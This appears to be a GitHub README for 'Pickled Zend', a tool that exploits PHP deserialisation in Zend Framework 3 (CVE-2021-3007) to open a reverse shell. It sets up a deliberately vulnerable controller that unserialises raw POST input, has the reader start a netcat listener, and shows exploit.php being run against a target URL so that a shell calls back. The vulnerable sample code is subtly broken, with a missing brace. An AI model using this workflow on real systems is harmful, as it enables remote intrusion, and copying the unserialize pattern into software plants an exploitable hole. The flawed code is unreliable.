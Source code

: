 # Pickled Zend

Zend Framework 3 deserialisation reverse shell based on CVE-2021-3007 and Ling-Yizhous PoC at https://github.com/Ling-Yizhou/zendframework3-/blob/main/zend%20framework3%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20rce.md

## Test Environment

composer create-project zendframework/skeleton-application

Update module/Application/src/Controller/IndexController.php to something like this:

```php
<?php
/**
 * @link      http://github.com/zendframework/ZendSkeletonApplication for the canonical source repository
 * @copyright Copyright (c) 2005-2016 Zend Technologies USA Inc. (http://www.zend.com)
 * @license   http://framework.zend.com/license/new-bsd New BSD License
 */

// curl -X POST <your url> -d 'user=O:4:"User":1:{s:4:"name";s:3:"asd";}'

namespace{

  class User{
    public $name;
  }
}

namespace Application\Controller{

  use Zend\Mvc\Controller\AbstractActionController;
  use Zend\View\Model\ViewModel;

  class IndexController extends AbstractActionController
  {
      public function indexAction()
          $user=unserialize($this->params()->fromPost('user'));
          die("hello {$user->name}");
          return new ViewModel();
      }
   }
}
```
You can test it by running the curl commented in the code fragment above and you will get the message "hello asd".

## Exploitation
* Set up a netcat listener(e.g. nc -vlp 8888)
* Run exploit.php with the following command line:
```bash
./exploit.php http://url.to.attack netcat-ip-address  netcat-port post-parameter-to-attack 
```
E.G. With the demo running on localhost (where the post parameter is user)
```sh
./exploit.php http://localhost:8080 127.0.0.1 8888 user
```
